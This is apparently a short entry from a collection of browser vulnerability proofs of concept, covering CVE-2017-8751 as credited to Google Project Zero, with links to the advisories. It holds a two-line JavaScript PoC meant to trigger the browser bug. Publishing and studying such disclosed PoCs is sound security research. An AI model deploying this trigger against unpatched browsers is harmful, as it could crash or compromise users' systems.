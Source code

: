# CVE-2017-8751

- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
Object.setPrototypeOf({}, this);
location.reload();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8751)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1339)
